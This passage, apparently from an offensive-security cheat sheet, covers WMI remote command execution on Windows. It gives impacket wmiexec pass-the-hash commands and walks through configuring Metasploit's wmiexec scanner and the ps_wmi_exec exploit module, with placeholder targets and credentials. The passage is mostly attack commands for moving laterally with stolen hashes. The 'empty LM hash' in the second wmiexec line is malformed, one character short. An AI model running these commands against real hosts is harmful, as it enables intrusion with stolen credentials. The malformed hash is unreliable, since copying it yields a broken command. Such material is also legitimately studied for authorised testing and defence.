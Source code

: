 - Pass the Hash

```
$ wmiexec <username>@<IP> -hashes <LM>:<NT> -codec <codec>

$ wmiexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nthash>
```

## 04 - Metasploit

### 4.1 - Modules

#### 4.1.1 - Auxiliary

```
msf > use auxiliary/scanner/smb/impacket/wmiexec

msf auxiliary(scanner/smb/impacket/wmiexec) > options

Module options (auxiliary/scanner/smb/impacket/wmiexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     yes       The command to execute
   OUTPUT     true             yes       Get the output of the executed command
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     yes       The password for the specified username
   SMBUser                     yes       The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/impacket/wmiexec) > set command <commands>

msf auxiliary(scanner/smb/impacket/wmiexec) > set rhosts <target_IP>

msf auxiliary(scanner/smb/impacket/wmiexec) > set output true

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbuser <username>

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbpass <password | nt_hash>

msf auxiliary(scanner/smb/impacket/wmiexec) > set smbdomain <domain>

msf auxiliary(scanner/smb/impacket/wmiexec) > set threads 2

msf auxiliary(scanner/smb/impacket/wmiexec) > run
```

#### 4.1.2 - Exploit

```
msf > use exploit/windows/local/ps_wmi_exec

msf exploit(windows/local/ps_wmi_exec) > options

Module options (exploit/windows/local/ps_wmi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        Domain or machine name
   PASSWORD                   no        Password to authenticate with
   RHOSTS                     no        Target address range or CIDR identifier
   SESSION                    yes       The session to run this module on
   USERNAME                   no        Username to authenticate as
```